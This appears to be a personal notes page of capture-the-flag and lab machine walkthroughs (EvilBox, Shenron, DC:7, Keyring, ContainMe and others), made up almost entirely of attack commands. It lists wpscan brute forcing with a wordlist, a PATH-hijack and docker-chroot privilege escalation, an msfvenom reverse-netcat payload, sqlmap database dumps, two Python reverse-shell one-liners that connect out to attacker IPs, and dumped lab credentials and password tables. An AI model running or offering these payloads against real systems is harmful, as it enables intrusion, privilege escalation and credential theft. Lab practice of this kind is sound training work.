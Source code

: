 <h1> Machines Notes </h1>
<h1> EvilBox </h1>
FFUF: fuzzing for url parameter
ssh2john: to encrypt rsa key so that we can find password with john
ssh using rsa key
encrypting password to md5


# PWNED
sudo -u selena /home/messenger.sh
ssh -i id_rsa ariana@192.168.1.78
docker run -v /:/mnt --rm -it privesc chroot /mnt sh

# PYLINGTON
1. .CC is a source code file of c++

# SHENRON 
1. wpscan --url http://shenron --usernames admin --passwords /usr/share/wordlists/rockyou.txt
2. echo /bin/bash > netstat
3. export PATH=/tmp/:$PATH
4. shenron@shenron:/tmp$ chmod +x netstat
5. shenron@shenron:~$ ./network

# BLUEMOON

1. docker run -v /:/mnt --rm -it alpine chroot /mnt sh




# DC:7
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.106 lport=8888 R

Change ip 
sudo apt install metasploit-framework

# Beelzebub
47009.c exploit local privilege escalation
valac page
echo "bleezebub" | md5sum


# WEB:7
-> sqlmap -u url --forms --dbs --current-db
-> sqlmap -u http://192.168.1.146/enter_network/ --forms  -D machine --tables --level=1 --risk=3 --random-agent

# THM ContainMe-V4
-> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Keyring

-> ffuf -u http://192.168.0.115/history.php?FUZZ=flash -w /usr/share/wordlists/dirb/big.txt -b "PHPSESSID=rj7m62mbp4imcmpt596ghuh0os" -fs 0

PHPSESSID: aga6cj3gm29ojcn6sdjl37375d

<=======================================================>
$servername = "localhost";
	$username = "root";
	$password = "sqluserrootpassw0r4";
	$database = "users";

<==========================================================>
+--------+--------------------------+
| name   | password                          |
+--------+--------------------------+
| admin  | myadmin#p4szw0r4d       |
| flash     | 1234                                  |
| john      | Sup3r$S3cr3t$PasSW0RD    |
| mayank | mayank                             |
| web       | 1234                                 |
+--------+--------------------------+

-> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.110",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'




